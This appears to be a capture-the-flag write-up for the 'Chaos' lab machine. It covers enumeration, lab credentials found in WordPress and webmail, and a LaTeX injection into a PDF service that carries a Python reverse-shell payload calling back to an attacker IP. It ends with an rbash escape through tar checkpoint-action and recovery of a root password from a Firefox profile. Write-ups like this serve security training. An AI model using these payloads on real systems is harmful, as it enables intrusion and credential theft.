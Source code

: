 # CHAOS

10.10.10.120

Website does not allow ```Direct IP```?
By adding the ip to the host file we're able to access the webpage. This is through **virtual host routing**

### GoBuster
```
10.10.10.120
    /wp
    /javascript

chaos.htb
    /img
    /css
    /source
    /js
    /javascript
    /server-status
 ```

By typing ``human`` into the /wp end point we get creds. This is due to ```human``` being the poster

```
ayush
jiujitsu
```

By changing the virutal host to ```webmail.chaos.htb``` we can find a webmail login. This allows a login using the creds

An email is present in the drafts

```
Hii, sahay
Check the enmsg.txt
You are the password XD.
Also attached the script which i used to encrypt.
Thanks,
Ayush
```

Contains two files. They can be found in the ```./Encryption``` directory

After a decode we get this message:
```
Hii Sahay

Please check our new service which create pdf

p.s - As you told me to encrypt important msg, i did :)

http://chaos.htb/J00_w1ll_f1Nd_n07H1n9_H3r3

Thanks,
Ayush
```

The endpoint is a PDF creator that uses LaTeX. After a quick search I was able to find a payload for LaTeX:
```
\immediate\write18{python -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("10.10.14.55",6868));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(["/bin/sh","-i"]);'  | base64 > test.txt}
\newread\file
\openin\file=test.txt
\loop\unless\ifeof\file
    \read\file to\fileline
    \text{\fileline}
\repeat
\closein\file
```

We spawn as a www-data user. Using the password for ayush ealier we can log onto his account.

We are entered into an ```rbash``` session

Note: Echo can be used in place of ls

```
echo /<dir>/*
```

Using tar we can escape our shell
```
tar -cf /dev/null /dev/null --checkpoint=1 --checkpoint-action=exec=/bin/sh
```


Fixes issues with commands not being found
```
export PATH=/usr/bin:/bin:/usr/sbin:/sbin:/usr/local/bin
```

# ROOT

By loading in a .mozilla profile we can get saved
passwords. This can be achieved using the profile manager

```
root
Thiv8wrej~
```

This lets us logon as root and obtain the root.txt
